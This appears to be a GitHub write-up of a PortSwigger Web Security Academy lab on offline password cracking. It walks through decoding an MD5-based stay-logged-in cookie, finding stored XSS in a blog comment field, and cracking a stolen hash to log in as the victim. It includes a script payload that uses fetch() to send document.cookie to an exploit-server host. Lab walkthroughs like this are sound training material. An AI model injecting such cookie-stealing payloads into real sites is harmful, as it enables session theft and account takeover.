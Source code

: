 // 📝 COMPLETED – BY HARSHIL BHUVA WITH PORTSWIGGER SOLUTION

# Write-up: Offline password cracking @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *Offline password cracking* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Learning path: Server-side topics → Authentication

Lab-Link: <https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking>  
Difficulty: PRACTITIONER  
Python script: Currently no python script


## Lab description

![lab_description](img/lab_description.png)

Clickable links for [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames) and [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Steps

### Analyze cookie

As usual, the first step is to analyze the functionality of the lab, in this case, the login functionality. For this, I log in with the known credentials for `wiener`. Like in the [previous lab](../Brute-forcing_a_stay-logged-in_cookie/README.md), the lab uses a `stay-logged-in` cookie:

`Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC`

Burp Inspector quickly shows that it contains the username and a hash in base64:

![cookie_wiener](img/cookie_wiener.png)

A quick check confirms that it is the password as MD5 hash again:

![hash_md5sum](img/hash_md5sum.png)

### Find XSS vulnerability

Next, I have to find the XSS vulnerability. The page allows for writing comments that have 4 possible input fields: comment, name, email and website.

The email and website fields do some basic client-side validity checks. It might be possible to inject anything there if the validation is flawed, but I try the other two fields first as they hit the server straight away.

Injecting some basic test in the comment and name fields reveal that the comment field is injectable with this code.

```javascript
<script>alert(document.location)</script>
```

![xss_test](img/xss_test.png)

### Inject a real payload

Now we have to come up with some payload that will provide us with the cookie value when carlos looks at the page. For this, we have the exploit server where we can see the access log for the web server. Let's craft a little script that loads a document from there:

```javascript
<script>
fetch('https://exploit-0a8c008a03da770bc09ca69d015400e1.web-security-academy.net/' + document.cookie, {
method: 'GET'
});
</script> 
```

![malicious_comment](img/malicious_comment.png)

Sure enough, the server log reveals that someone that is not me looked at the page:

![cookie](img/cookie.png)

Interestingly, there also is a `secret` cookie that I don't see on my own account. With Burp Decoder or the good old console we find the hash of carlos' password:

![cookie_decoded](img/cookie_decoded.png)

The internet has a lot of hash cracker websites, using [crackstation](https://crackstation.net/) the value of the password is quickly found:

![hash_cracked](img/hash_cracked.png)

Now I simply log in as carlos and delete the account

![delete_confirmation](img/delete_confirmation.png)

Afterward, the lab updates to

![success](img/success.png)

